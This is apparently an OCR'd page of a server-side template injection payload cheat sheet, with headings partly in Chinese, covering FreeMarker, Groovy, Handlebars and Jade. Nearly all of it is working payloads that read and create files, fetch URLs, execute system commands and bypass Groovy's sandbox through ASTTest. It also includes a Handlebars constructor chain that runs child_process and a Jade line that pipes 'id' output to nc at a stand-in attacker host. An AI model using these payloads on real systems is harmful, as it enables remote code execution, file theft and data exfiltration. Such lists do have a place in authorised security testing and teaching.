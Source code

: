 	<#assign classloader=article.class.protectionDomain.classLoader>
	<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
	<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
	<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
	${dwf.newInstance(ec,null)("id")}
  #### Groovy
  	https://groovy-lang.org/syntax.html
	${9*9}
	读取和创建文件
	${String x = new File('c:/windows/notepad.exe').text}
	${String x = new File('/path/to/file').getText('UTF-8')}
	${new File("C:\Temp\FileName.txt").createNewFile();}
	HTTP 请求
	${"http://www.google.com".toURL().text}
	${new URL("http://www.google.com").getText()}
	命令执行
	${"calc.exe".exec()}
	${"calc.exe".execute()}
	${this.evaluate("9*9") //(this is a Script class)}
	${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
	沙盒绕过
	${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
	def x }
	或
	${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
  #### Handlebars
  	命令执行
	{{#with "s" as |string|}}
	  {{#with "e"}}
	    {{#with split as |conslist|}}
	      {{this.pop}}
	      {{this.push (lookup string.sub "constructor")}}
	      {{this.pop}}
	      {{#with string.split as |codelist|}}
	        {{this.pop}}
	        {{this.push "return require('child_process').execSync('ls -la');"}}
	        {{this.pop}}
	        {{#each conslist}}
	          {{#with (string.sub.apply 0 codelist)}}
	            {{this}}
	          {{/with}}
	        {{/each}}
	      {{/with}}
	    {{/with}}
	  {{/with}}
	{{/with}}
  #### Jade / Codepen
  	- var x = root.process
	- x = x.mainModule.require
	- x = x('child_process')
	= x.exec('id | nc attacker.net 80')
